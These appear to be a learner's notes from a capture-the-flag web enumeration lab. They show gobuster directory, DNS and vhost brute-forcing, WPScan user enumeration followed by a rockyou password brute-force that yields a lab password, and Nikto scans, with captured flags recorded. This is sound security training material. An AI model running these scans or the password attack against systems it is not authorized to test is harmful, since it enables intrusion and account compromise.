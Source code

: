`GOBUSTER`
gobuster dir -u http://10.10.252.123/myfolder -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x.html,.css,.js : dir model

-k : `Skip TLS certificate verification` (use when HTTPS on)

gobuster dns -d mydomain.thm -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt : DNS model

gobuster vhost -u http://example.com -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt : `vhost` model -> brute-force the virtual hosts -> run on the same server.

common wordlists :

`/usr/share/wordlists/dirbuster/directory-list-2.3-*.txt
/usr/share/wordlists/dirbuster/directory-list-1.0.txt
/usr/share/wordlists/dirb/big.txt
/usr/share/wordlists/dirb/common.txt
/usr/share/wordlists/dirb/small.txt
/usr/share/wordlists/dirb/extensions_common.txt - Useful for when fuzzing for files! `

echo "10.10.106.175 webenum.thm" >> /etc/hosts
echo "10.10.106.175 mysubdomain.webenum.thm" >> /etc/hosts

gobuster dir -u http://webenum.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64


gobuster dir -u http://webenum.thm/Changes -w /usr/share/wordlists/dirbustemedium.txt -x.html,.css,.js,.conf,.txt -t 64
->conf,js


gobuster dir -u http://webenum.thm/VIDEO/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html -t 50


curl "http://webenum.thm/VIDEO/flag.php " -> `thm{n1c3_w0rk}`

gobuster vhost -u http://webenum.thm -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -t 50

-> learning and products.webenum.thm -> set to hosts and scan -> get flag.txt -> `thm{gobuster_is_fun}`

`WPScan`

wpscan --url http://wpscan.thm/ --enumerate t -> twentynineteen
wpscan --url http://wpscan.thm/ --enumerate p 
-> nextgen-gallery

wpscan --url http://wpscan.thm/ --enumerate u
-> Phreakazoid

wpscan --url http://wpscan.thm/ --passwords /usr/share/wordlists/rockyou.txt --usernames Phreakazoid
-> linkinpark

`Nikto`

nikto -h http://10.10.125.98:80 -> Apache/2.4.7(Ubuntu)

nikto -h 10.10.125.98 -p 80,8000,8080 
-> Apache-Coyote/1.1 
-> JSESSIONID